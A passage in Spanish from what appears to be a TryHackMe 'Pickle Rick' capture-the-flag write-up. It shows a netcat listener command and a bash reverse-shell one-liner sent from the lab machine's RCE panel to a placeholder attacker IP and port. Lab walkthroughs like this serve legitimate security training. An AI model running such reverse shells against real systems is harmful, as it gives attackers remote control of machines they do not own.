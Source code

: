 ![clue](assets\img\TryHackMe\PickleRick\clue.png)


Para facilitar la enumeración y el manejo de la sesión, generamos una Reverse Shell desde el panel RCE hacia nuestra máquina.

**Reverse Shell**

Máquina Atacante (Listener): Configuramos Netcat en el puerto 4000.
```bash
nc -lvnp 4000
```
![nc](assets\img\TryHackMe\PickleRick\nc.png)

Máquina Víctima (Payload): Elegimos esta sintaxis de Bash por ser la más fiable, ya que garantiza la correcta redirección de la entrada (STDIN), salida (STDOUT) y errores (STDERR) a través de la conexión TCP:
```bash
bash -c "bash -i &>/dev/tcp/ip-maquina-atacante/puerto-listening <&1"
```
![bash](assets\img\TryHackMe\PickleRick\bash.png)
